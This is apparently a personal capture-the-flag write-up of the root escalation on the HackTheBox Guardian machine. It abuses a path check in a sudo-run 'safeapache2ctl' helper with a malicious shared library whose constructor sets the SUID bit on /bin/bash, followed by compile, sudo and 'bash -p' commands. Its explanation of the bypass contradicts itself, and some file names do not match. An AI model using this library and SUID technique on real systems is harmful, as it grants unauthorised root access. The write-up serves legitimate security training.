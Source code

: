 # SafeApache2ctl Privilege Escalation - Shared Library Hijacking Technique Breakdown
- Found `HTB` Guardian privilege Escalation path very interesting , challenging box nonetheless.
- Taking notes for future references, referenced blog post on Guardian by [HYH](https://www.hyhforever.top/posts/2025/09/htb-guardian/).


###  Overview
This exploit leverages a path validation vulnerability in `safeapache2ctl` to load a malicious shared library with root privileges, resulting in persistent privilege escalation through `SUID` binary creation.


### Vulnerability Analysis - Flawed Path Validation
- The `safeapache2ctl` binary contains a vulnerable function `is_unsafe_line()` with improper path sanitization:

```bash
// Flawed validation logic
if (local_1018[0] == '/') {  // Only check absolute paths
    iVar1 = starts_with(local_1018,"/home/mark/confs/");
    if (iVar1 == 0) {
        // Block access
    }
}
// Relative paths bypass this check entirely!
```

### Security Control Bypass
- Intended Security: Restrict file operations to `/home/mark/confs/`
- Actual Behavior: Any file in the allowed directory can be referenced, including malicious shared libraries
- Bypass Method: Use absolute paths within the trusted directory that point to malicious content

### Attack Vectors - Exploitable Directives
- The vulnerability affects three Apache configuration directives:
- `Include` - File inclusion
- `IncludeOptional` - Optional file inclusion
- `LoadModule` ⭐ Most Dangerous - Shared library loading
#### Why `LoadModule` is Critical

```c
// Apache processes this directive:
LoadModule evil_module /home/mark/confs/evil.so

// Which triggers:
dlopen("/home/mark/confs/evil.so")  // Loads shared library
// Constructor executes automatically with Apache's privileges
```
### Payloads
#### Payload Development
- `evil.c`, create malicious library
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

__attribute__((constructor)) void init() {
    setuid(0);
    system("chmod +s /bin/bash");
}
```
- `__attribute__((constructor))` - Function executes automatically on library load
- `setuid(0)` - Elevates privileges to root
- `chmod +s /bin/bash` - Creates persistent SUID root binary
#### Exploit Configuration
- `exploit.conf `, create exploit configuration and achieves code execution via shared library constructor
```bash
LoadModule evil_module /home/mark/confs/evil.so
```

### Reproduce The Attack
- Place `evil.c` in `/home/mark/`
- Place `evil.conf` in `/home/mark/conf`
- Compile the shared library 
```bash
$ gcc -shared -fPIC -o /home/mark/confs/evil.so /home/mark/evil.c
```
- Run `safeapache2ctl` as `sudo`
```bash
$ sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/exploit.conf
```
- Run `bash` in privileged mode
```bash
$ bash -p
$ whoami  
root
```
